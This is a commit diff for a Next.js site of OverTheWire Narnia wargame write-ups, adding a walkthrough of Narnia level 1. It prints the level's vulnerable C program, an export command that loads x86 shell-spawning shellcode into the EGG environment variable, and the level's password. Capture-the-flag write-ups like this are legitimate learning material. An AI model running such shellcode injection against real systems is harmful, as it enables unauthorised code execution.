

Before and after one commit to ryannath/over-the-wire, a Next.js app: page /over-the-wire/narnia/narnia1 in a window 1280 px wide. Shown: the top 952 px of the page. Before the commit the page ends 800 px from the top, so only its background shows below. Built offline with nearby package versions, Linux system fonts and the light colour scheme; a web font is replaced by a local one.

Commit message:
Initial writeup of narnia 1 and 2

```diff
--- a/pages/narnia/narnia1.tsx
+++ b/pages/narnia/narnia1.tsx
@@ -1,16 +1,51 @@
 import CodeBlock from "../../components/elements/CodeBlock/CodeBlock"
+import PageNav from "../../components/elements/PageNav/PageNav"
+import SpoilerKey from "../../components/elements/SpoilerKey/SpoilerKey"
 
 const narnia1 = () => {
   return (
     <div>
-      The getenv() function searches the environment list to find the
-       environment variable name, and returns a pointer to the
-       corresponding value string.
-       will execute otherwise, need to change ENV EGG
-       <CodeBlock language="shell">
-        export EGG=`python -c &apos;print(&quot;\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80&quot;)&apos;`
-       </CodeBlock>
-       nairiepecu
+      <h1>Narnia 1</h1>
+      <section>
+        <h2>Experience</h2>
+        <p>
+          Starting this level, we again start by looking at the source code.
+        </p>
+        <CodeBlock language="c">{`int main(){
+int (*ret)();
+
+if(getenv("EGG")==NULL){
+  printf("Give me something to execute at the env-variable EGG\n");
+  exit(1);
+}
+
+printf("Trying to execute EGG!\n");
+ret = getenv("EGG");
+ret();
+
+return 0;
+}`}</CodeBlock>
+        <p>
+          We may observe several interesting thing, first a declaration of a
+          pointer called <code>ret</code> which points to a function. There is also
+          a usage of <code>getenv</code> which gets an environment variable, which here
+          seems to be called <em>EGG</em>. It then sets the function pointer to
+          whatever is inside the EGG environment varialbe and then executes it. So,
+          clearly, we must insert some type of program into the EGG environment variable
+          to obtain the password for Narnia 2.
+        </p>
+        <p>
+          I could understand so far that we must set the environment variable to
+          something executable, however, I did not know how to proceed. Searching
+          setting environment variable vulnerabilities led to a <a href="https://owasp.org/www-community/attacks/Buffer_Overflow_via_Environment_Variables">page in owasp.org</a>.
+
+        </p>
+      </section>
+      <CodeBlock language="shell">
+        {`export EGG=$(python -c 'print("\\x31\\xc9\\xf7\\xe1\\x51\\xbf\\xd0\\xd0\\x8c\\x97\\xbe\\xd0\\x9d\\x96\\x91\\xf7\\xd7\\xf7\\xd6\\x57\\x56\\x89\\xe3\\xb0\\x0b\\xcd\\x80")')`}
+      </CodeBlock>
+      <SpoilerKey>{`nairiepecu`}</SpoilerKey>
+      <PageNav link1='/narnia/narnia0' link2='/narnia/narnia2' />
     </div>
   )
 }
```
Also changed, not shown: pages/narnia/narnia2.tsx (added, +13 -0 lines).
